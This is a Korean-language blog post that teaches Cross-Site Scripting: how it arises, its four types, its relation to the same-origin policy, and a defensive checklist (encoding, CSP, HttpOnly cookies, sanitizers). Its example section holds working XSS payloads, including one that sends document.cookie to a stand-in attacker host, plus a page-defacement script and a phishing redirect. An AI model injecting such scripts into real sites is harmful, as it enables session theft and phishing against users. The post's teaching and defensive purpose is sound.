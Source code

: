 ```yaml
---
title: "[Infosec] Cross-Site Scripting (XSS) 완전 정리"
date: 2025-09-10 20:10:00 +0900
categories: [보안, Web]   # 카테고리는 여러 계층도 가능 [상위, 하위]
tags: [웹해킹, XSS]          # 해시태그처럼 글 묶기
description: "인증정보 탈취 작전"
author: "송지민"
toc: true
---
```


# 가장 단순하지만 여전히 강력한 웹 공격 수단

---

> 이 글은 **보안 학습/방어 목적**입니다. 실습은 **본인 로컬/테스트 환경**에서만 하세요.

## XSS란?

**XSS(Cross-Site Scripting)** 는 웹 페이지에 악성 스크립트(보통 JavaScript)가 주입되어 **피해자의 브라우저에서 실행**되는 취약점이다.  
주로 “사용자가 입력한 값을 다시 출력”하는 기능에서 발생한다. (예: 로그인 후 “안녕하세요, 00님”)  

**SOP(Same-Origin Policy)** 때문에 임의의 출처의 민감한 데이터는 바로 읽기 어렵지만,  
스크립트가 **피해 사이트의 Origin 권한**으로 실행되기 때문에 **그 Origin의 권한 범위 안에서는 강력**하다.  
(예: 해당 사이트의 쿠키 접근, DOM 변조, 사용자의 클릭 유도 등)

---

## 언제 생기나? (간단 원리)

1. **입력(Input)**: 댓글/검색어/프로필 등 사용자가 넣는 값  
2. **처리(Process)**: 서버 또는 클라이언트(JS)에서 값 가공  
3. **출력(Output)**: HTML/속성/URL/스크립트 등 **맥락(Context)** 에 그대로 넣어 렌더링  
4. **실행(Execute)**: 브라우저가 그 값을 **코드로 해석**하면 XSS 발생

> 특히 **출력 맥락**(HTML 본문, 속성, JavaScript literal, URL, 스타일 등)에 맞는 **인코딩**이 안 되면 취약해진다.

---

## XSS 종류

| 종류 | 설명 |
|---|---|
| **Stored XSS** | 악성 스크립트가 **서버에 저장**되고, 다른 사용자가 페이지를 열 때 **응답에 포함**되어 실행됨. (예: 댓글/게시글에 삽입) |
| **Reflected XSS** | 악성 입력이 **요청 파라미터**에 들어오고, 서버가 그대로 **응답에 반사**해서 실행됨. (예: 검색 결과 페이지) |
| **DOM-based XSS** | 서버 응답이 아니라, **브라우저 내 JS가 DOM을 조작**하면서 발생. (예: `location.hash` 등을 `innerHTML`에 삽입) |
| **Universal XSS(UXSS)** | **브라우저/플러그인 자체**의 취약점으로 SOP를 우회해 스크립트가 실행되는 케이스. (앱·엔진 취약점 이슈) |

---

## 예제 코드 (학습용 / 안전 도메인 사용)

> 예제의 외부 주소는 **테스트 전용 도메인**으로 바꿨다: `https://attacker.example`  
> (※ `.example` TLD는 문서/예시에 쓰라고 예약된 도메인)

### 1) 쿠키/세션 탈취 시도 (학습용)
```html
<script>
// 데모: 현재 페이지의 쿠키 확인
alert(document.cookie);

// 단순 exfiltration 패턴 (이미지 요청으로 전송)
new Image().src = "https://attacker.example/collect?cookie=" + encodeURIComponent(document.cookie);
</script>
```
> 방어 팁: **HttpOnly 쿠키**면 `document.cookie`로 읽히지 않는다. `Secure`, `SameSite`도 함께 설정.

### 2) 페이지 변조
```html
<script>
// DOM 변조 (예: 내용 바꾸기)
document.write("Hacked by Demo!"); // 실제 서비스에선 미사용 권장
</script>
```
> 방어 팁: `document.write`, `innerHTML` 대신 **`textContent` / 안전한 템플릿** 사용.

### 3) 위치 이동(피싱 유도)
```html
<script>
// 피싱 페이지로 이동 (새 창 열기 포함)
location.href = "https://attacker.example/phishing";
window.open("https://attacker.example/");
</script>
```
> 방어 팁: 외부 링크는 **rel="noopener noreferrer"**, 사용자 확인(예: 중간 경고), URL 화이트리스트 등.

---

## SOP와 XSS의 관계, 그리고 왜 위험한가

- **SOP**는 “다른 출처의 응답 **읽기**”를 막는다.  
- 그러나 XSS는 **현재 페이지의 출처 권한**으로 실행되기 때문에, 그 **출처의 쿠키/DOM/요청**에는 접근 가능하다.  
- 그래서 공격자는 `https://attacker.example`로 **요청을 보내는 방식**(이미지/fetch 등)으로 데이터를 외부로 **유출**한다.

---

## 방어 전략 (현업 체크리스트)

### 1) 출력 인코딩(Output Encoding)
- 맥락별로 맞춤 인코딩:  
  - **HTML 본문** → HTML 엔코딩  
  - **HTML 속성** → 속성 엔코딩  
  - **URL/쿼리** → URL 엔코딩  
  - **JS literal** → JS 문자열 이스케이프  
- 프레임워크의 **기본 자동 이스케이프**를 끄지 말 것.

### 2) 입력 검증(Input Validation)
- 허용 목록(Whitelist) 기준으로 길이/문자/패턴 제한
- HTML을 허용해야 한다면 **DOMPurify** 같은 **화이트리스트 기반 Sanitizer** 사용

### 3) 안전한 DOM API 사용
- `innerHTML`, `document.write` 지양 → **`textContent`, `setAttribute`** 등 사용
- 사용자 입력을 **스크립트/이벤트 핸들러 속성**에 절대 직접 연결하지 말 것

### 4) 쿠키 보안
- **HttpOnly**: JS에서 쿠키 접근 차단  
- **Secure**: HTTPS에서만 전송  
- **SameSite**: 크로스 사이트 쿠키 전송 제한 (CSRF/XSS 조합 공격 완화)

### 5) **CSP(Content Security Policy)**
- 기본 정책: `script-src 'self'` + **nonce/sha256 기반** 인라인 허용  
- 단계적 도입: `Content-Security-Policy-Report-Only`로 **로그부터** 수집  
- **Trusted Types**(지원 브라우저): DOM XSS를 구조적으로 차단

### 6) 기타
- 템플릿 엔진의 **자동 escaping** 유지  
- 서드파티 스크립트 최소화/무결성(`integrity` 속성)  
- SRI, Subresource Integrity 적용  
- 린트/테스트(정적 분석, 동적 스캐너)로 **릴리즈 전 자동 점검**

---

## 요약

- XSS는 “**사용자 입력이 코드로 해석**되는 순간” 발생한다.  
- **Stored / Reflected / DOM-based / UXSS** 네 가지 관점으로 이해할 것.  
- 방어의 핵심은 **맥락별 인코딩**, **안전한 DOM 사용**, **CSP + HttpOnly/SameSite 쿠키**, **입력 검증/정화**다.
